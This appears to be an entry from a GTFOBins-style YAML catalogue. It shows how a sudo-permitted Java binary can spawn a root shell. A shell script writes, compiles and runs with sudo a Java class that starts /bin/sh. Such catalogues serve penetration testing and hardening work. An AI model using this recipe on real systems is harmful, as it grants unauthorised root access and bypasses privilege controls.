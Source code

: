 ```yaml
---
functions:
  sudo:
    - code: |
        TD=$(mktemp -d)
        SOURCE='public class Exec { public static void main(String[] args) throws Exception { new ProcessBuilder("/bin/sh").inheritIO().start().waitFor(); } }'
        echo "$SOURCE" > $TD/Exec.java
        javac $TD/Exec.java
        sudo java -cp $TD Exec
---
```

